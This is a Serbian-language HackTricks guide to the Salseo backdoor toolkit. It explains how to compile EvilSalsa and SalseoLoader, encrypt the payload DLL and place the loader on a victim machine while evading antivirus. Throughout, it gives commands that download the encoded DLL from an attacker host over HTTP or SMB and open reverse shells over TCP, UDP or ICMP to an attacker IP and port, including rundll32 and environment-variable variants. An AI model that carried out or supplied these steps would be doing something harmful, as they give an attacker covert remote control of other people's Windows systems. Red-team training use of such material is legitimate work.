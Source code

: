 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Kompajliranje binarnih fajlova

Preuzmite izvorni kod sa github-a i kompajlirajte **EvilSalsa** i **SalseoLoader**. Biće vam potreban **Visual Studio** instaliran da biste kompajlirali kod.

Kompajlirajte te projekte za arhitekturu Windows mašine na kojoj ćete ih koristiti (Ako Windows podržava x64, kompajlirajte ih za tu arhitekturu).

Možete **izabrati arhitekturu** unutar Visual Studio-a u **levom "Build" tabu** u **"Platform Target".**

(\*\*Ako ne možete pronaći ove opcije, pritisnite na **"Project Tab"** a zatim na **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Zatim, izgradite oba projekta (Build -> Build Solution) (Unutar logova će se pojaviti putanja do izvršnog fajla):

![](<../.gitbook/assets/image (381).png>)

## Pripremite Backdoor

Prvo, biće potrebno da kodirate **EvilSalsa.dll.** Da biste to uradili, možete koristiti python skriptu **encrypterassembly.py** ili možete kompajlirati projekat **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, sada imate sve što vam je potrebno da izvršite sve Salseo stvari: **encoded EvilDalsa.dll** i **binary of SalseoLoader.**

**Otpremite SalseoLoader.exe binarni fajl na mašinu. Ne bi trebalo da budu otkriveni od strane bilo kog AV...**

## **Izvršite backdoor**

### **Dobijanje TCP reverse shell-a (preuzimanje kodiranog dll-a putem HTTP-a)**

Zapamtite da pokrenete nc kao slušalac reverse shell-a i HTTP server da poslužite kodirani evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Dobijanje UDP reverzibilne ljuske (preuzimanje kodirane dll preko SMB)**

Zapamtite da pokrenete nc kao slušača reverzibilne ljuske, i SMB server da posluži kodirani evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Dobijanje ICMP obrnute ljuske (kodirana dll već unutar žrtve)**

**Ovoga puta vam je potreban poseban alat na klijentu da primite obrnutu ljusku. Preuzmite:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Onemogućite ICMP odgovore:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Izvrši klijenta:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Unutar žrtve, hajde da izvršimo salseo stvar:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kompajliranje SalseoLoader-a kao DLL koji izvozi glavnu funkciju

Otvorite SalseoLoader projekat koristeći Visual Studio.

### Dodajte pre glavne funkcije: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Instalirajte DllExport za ovaj projekat

#### **Alati** --> **NuGet Package Manager** --> **Upravljanje NuGet paketima za rešenje...**

![](<../.gitbook/assets/image (881).png>)

#### **Pretražite DllExport paket (koristeći Browse tab), i pritisnite Instaliraj (i prihvatite iskačući prozor)**

![](<../.gitbook/assets/image (100).png>)

U vašem projektnom folderu su se pojavili fajlovi: **DllExport.bat** i **DllExport\_Configure.bat**

### **De**instalirajte DllExport

Pritisnite **Deinstaliraj** (da, čudno je, ali verujte mi, to je neophodno)

![](<../.gitbook/assets/image (97).png>)

### **Izađite iz Visual Studio i izvršite DllExport\_configure**

Jednostavno **izađite** iz Visual Studio

Zatim, idite u vaš **SalseoLoader folder** i **izvršite DllExport\_Configure.bat**

Izaberite **x64** (ako planirate da ga koristite unutar x64 okvira, to je bio moj slučaj), izaberite **System.Runtime.InteropServices** (unutar **Namespace for DllExport**) i pritisnite **Primeni**

![](<../.gitbook/assets/image (882).png>)

### **Ponovo otvorite projekat sa Visual Studio**

**\[DllExport]** više ne bi trebao biti označen kao greška

![](<../.gitbook/assets/image (670).png>)

### Izgradite rešenje

Izaberite **Tip izlaza = Klasa biblioteka** (Projekat --> SalseoLoader Svojstva --> Aplikacija --> Tip izlaza = Klasa biblioteka)

![](<../.gitbook/assets/image (847).png>)

Izaberite **x64** **platformu** (Projekat --> SalseoLoader Svojstva --> Izgradnja --> Ciljna platforma = x64)

![](<../.gitbook/assets/image (285).png>)

Da **izgradite** rešenje: Izgradnja --> Izgradi rešenje (Unutar izlazne konzole će se pojaviti putanja novog DLL-a)

### Testirajte generisani DLL

Kopirajte i nalepite DLL gde želite da ga testirate.

Izvršite:
```
rundll32.exe SalseoLoader.dll,main
```
Ako se ne pojavi greška, verovatno imate funkcionalni DLL!!

## Dobijanje shel-a koristeći DLL

Ne zaboravite da koristite **HTTP** **server** i postavite **nc** **listener**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
